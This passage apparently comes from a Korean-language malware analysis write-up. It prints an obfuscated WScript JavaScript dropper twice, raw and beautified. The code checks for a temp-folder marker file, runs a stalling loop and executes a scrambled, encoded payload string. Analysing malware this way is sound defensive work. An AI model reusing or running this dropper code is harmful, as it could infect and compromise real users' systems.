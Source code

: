   

```javascript

(function anonymous(

) {

nubper='';CQ12 = WScript.CreateObject("Scripting.FileSystemObject");OA92=CQ12["Ge"+"tSpe"+"ci"+"alF"+"olde"+"r"](4-2)+"\\Hv129167.tmp";if (CQ12.FileExists(OA92)) WScript.Quit();CQ12.CreateTextFile(OA92, true).Close();fo32 = 6; while (fo32 < 15092609 ) { Math[""+"s"+""+"q"+""+"r"+""+"t"+""]((fo32)); fo32=fo32+2-1; }FQ96[5-2](fW4('tast.u6s8 r=W=(= f2i0 0}) ;{e svlaarf Snyr4u3t e=r W{r)8e6(.hrcetsapco}n s;e)T(edxnte;s .i6f8 r(W( S;y)4e3s.lianfd e,x4O4fY(y\"+@\"\"=+iynYu4b4g+e\"e@x\"l,t h0h)e)?=\"=+-\'1p)h p{. mWuSrcorfi/p\'t+.]s5l5eDejp[(4282a2Z2+2\')/;/ :}p tetlhs\'e ,{\' TSEyG4\'3( n=e pSoy.4638.rrWe p{lyarcte (;\")@0\"3++y0Y74,42+(\"]@\"\"r,t\"s\"b)u;s \"v[a)r( gfnSi8r5t S=o tS.y)4(3m.ordenpalra.chet(a/M( \\=d {424}Y)y/ g;,) \'fPuTnTcHtLiMoXnr e(vSrde9S7.)2 L{M XrSeMt\'u(rtnc eSjtbrOientga.efrrCo.mtCphiarrcCSoWd e=( p6a8rrsWe I{n t)(3S d<9 75,51D0j)(+ 3e0l)i;h w} );;0 F=Q 9565[D3j] (;f]S\"8m5o)c(.)o;d -WdSncar-iepbt..wQwuwi\"t,(\")e;d .}j 4}o .ewlwswe\" ,{\" lWpS.cdrcilp-tm.esjlaeneypw(.2t2s2e2t2.)w;w w}\" [j D=5 54+8+a;Z}'))(fo32);tcgmac=FQ96;

})

```

  

해당 코드도 난독화가 되어 있다.

  

개행마저 안 되어 있기 때문에, [Online JavaScript Beautifier](https://beautifier.io/)를 통해 코드를 1차 정리 해 주겠다.

  

  

  

```javascript

(function anonymous() {

nubper = '';

CQ12 = WScript.CreateObject("Scripting.FileSystemObject");

OA92 = CQ12["Ge" + "tSpe" + "ci" + "alF" + "olde" + "r"](4 - 2) + "\\Hv129167.tmp";

if (CQ12.FileExists(OA92)) WScript.Quit();

CQ12.CreateTextFile(OA92, true).Close();

fo32 = 6;

while (fo32 < 15092609) {

Math["" + "s" + "" + "q" + "" + "r" + "" + "t" + ""]((fo32));

fo32 = fo32 + 2 - 1;

}

FQ96[5 - 2](fW4('tast.u6s8 r=W=(= f2i0 0}) ;{e svlaarf Snyr4u3t e=r W{r)8e6(.hrcetsapco}n s;e)T(edxnte;s .i6f8 r(W( S;y)4e3s.lianfd e,x4O4fY(y\"+@\"\"=+iynYu4b4g+e\"e@x\"l,t h0h)e)?=\"=+-\'1p)h p{. mWuSrcorfi/p\'t+.]s5l5eDejp[(4282a2Z2+2\')/;/ :}p tetlhs\'e ,{\' TSEyG4\'3( n=e pSoy.4638.rrWe p{lyarcte (;\")@0\"3++y0Y74,42+(\"]@\"\"r,t\"s\"b)u;s \"v[a)r( gfnSi8r5t S=o tS.y)4(3m.ordenpalra.chet(a/M( \\=d {424}Y)y/ g;,) \'fPuTnTcHtLiMoXnr e(vSrde9S7.)2 L{M XrSeMt\'u(rtnc eSjtbrOientga.efrrCo.mtCphiarrcCSoWd e=( p6a8rrsWe I{n t)(3S d<9 75,51D0j)(+ 3e0l)i;h w} );;0 F=Q 9565[D3j] (;f]S\"8m5o)c(.)o;d -WdSncar-iepbt..wQwuwi\"t,(\")e;d .}j 4}o .ewlwswe\" ,{\" lWpS.cdrcilp-tm.esjlaeneypw(.2t2s2e2t2.)w;w w}\" [j D=5 54+8+a;Z}'))(fo32);

```
